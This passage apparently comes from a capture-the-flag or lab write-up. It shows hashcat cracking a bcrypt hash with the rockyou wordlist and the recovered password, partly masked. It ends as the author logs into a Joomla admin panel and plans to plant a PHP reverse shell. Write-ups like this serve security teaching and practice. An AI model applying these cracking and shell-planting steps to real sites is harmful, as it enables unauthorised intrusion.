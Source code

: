 ```

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 109 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

...
...

$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:sXXXXXX123

Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p...BtZutm
Time.Started.....: Fri Feb 26 20:33:56 2021 (1 min, 36 secs)
Time.Estimated...: Fri Feb 26 20:35:32 2021 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      492 H/s (2.51ms) @ Accel:2 Loops:4 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 46860/14344385 (0.33%)
Rejected.........: 0/46860 (0.00%)
Restore.Point....: 46530/14344385 (0.32%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidates.#1....: 199022 -> sherpa
Hardware.Mon.#1..: Temp: 58c Fan: 18% Util: 97% Core:1961MHz Mem:3802MHz Bus:16

Started: Fri Feb 26 20:33:54 2021
Stopped: Fri Feb 26 20:35:33 2021
PS D:\Google Drive\Cyber Security\Utils\hashcat-6.1.1>
```


## Logging in to Joomla

Using this password I was able to log into the Joomla administrator page. 

I have not used Joomla before but I am familiar enough with creating sites using Wordpress that I was able to find my way around. 

My plan was to create a page with a PHP reverse shell and try to get access that way. 
